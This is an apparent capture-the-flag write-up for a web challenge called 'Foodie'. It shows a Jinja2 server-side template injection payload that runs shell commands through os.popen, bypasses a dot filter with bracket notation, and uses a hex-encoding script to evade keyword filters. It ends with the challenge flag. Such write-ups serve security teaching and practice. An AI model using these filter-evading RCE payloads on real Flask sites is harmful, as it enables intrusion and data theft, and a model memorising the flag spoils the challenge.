 # Writeup for `Foodie`

|      author     | category | value |
|-----------------|----------|-------|
| dprakosa        | web      |  100  |

## Solution

<details>
<summary>Click here to reveal the solution!</summary>

### Walkthrough

From the response headers, we see:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.13.5
```

This hints that the server is running Flask, which uses Jinja2 for templating. Then, we can confirm that the input is vulnerable to SSTI by using `{{7*7}}` as a payload, which returns 49.

To get RCE we can try this following payload:
```python
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

However, it seems that '.' is filtered. To bypass this we can use brackets instead:
```python
# var.property == var['property']
{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat secret')['read']() }}
```
Because underscores and words are filtered we can use hex-encoded strings instead. Here's a simple python script to convert it:

```python
payload = r"{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}"
for char in payload:
    if char.isalpha() or char == "_":
        print(rf"\x{hex(ord(char))[2:]}", end="")
    else:
        print(char, end="")
# note: 'request' cannot be hex-encoded because it is part of jinja syntax

```
output:
```
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x63\x61\x74 \x73\x65\x63\x72\x65\x74')['\x72\x65\x61\x64']() }}
```

Now that we have gained RCE, we can simply modify the payload to discover the 'secret' file present in the directory and print out its content to get the flag.

### Flag(s)

- SCONES{z3rver_z1de_templ4t3_1njecti0Nz}

</details>
